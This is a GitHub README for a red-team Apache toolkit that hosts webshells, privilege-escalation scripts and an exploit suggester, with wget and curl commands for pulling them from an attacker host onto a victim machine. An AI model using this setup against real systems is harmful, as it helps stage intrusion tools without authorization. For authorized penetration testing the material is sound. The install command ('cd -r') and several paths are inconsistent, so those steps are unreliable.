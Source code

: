 # redteam-apache-toolkit
An apache2 webserver toolkit to enable tool downloads from attacker to target machine via http


## Installation 

To use the redteam-apache-tookit needs to be located inside /var/www/html. There are two options to do this.  

1) Navigate inside /var/www/html, then run  
```bash
git clone https://github.com/tcbutler320/redteam-apache-toolkit.git  
```  
2) Clone the repoistory to a location of your choosing, then run 
```bash
cd -r redteam-apache-toolkit /var/www/html
```

## Features   
The toolkit includes many tools that come with the latest Kali Linux Distribution as well as some custom tools from the community. See the credits section for details. 


| Category  | Description | Path  |
|---|---|---|
|  Webshells | A collection of webhells broken down by language   |  /redteam-apache-toolkit/webshells |
| priv-escalation  |  Privelege escalation scripts for windows and unix | /redtean-apache-toolkit/priv-escalation  |
| Exploit Suggester  |  A custom exploit suggester script from the pentestmonkeys |  /redteam-apache2-toolkit/exploit-suggester |

## Usage 

1) Start the apache2 webserver 
```bash
service apache2 start
```  
2) Choose the tool you want to transfer to the victim machine   
2) Choose a method of http transfer 


| Method  | Command   |
|---|---|
| wget  | ```wget http://[host-ip]/redteam-apache2-toolkit/[tool category]/[tool name]```  |
|  curl | ``` curl -o [name the file]  http://[host-ip]/redteam-apache2-toolkit/[tool category]/[tool name] ``` |


## Credits   
Thanks to the following for great open source tools included in this kit.   

1) [Pentestmonkey](http://pentestmonkey.net/)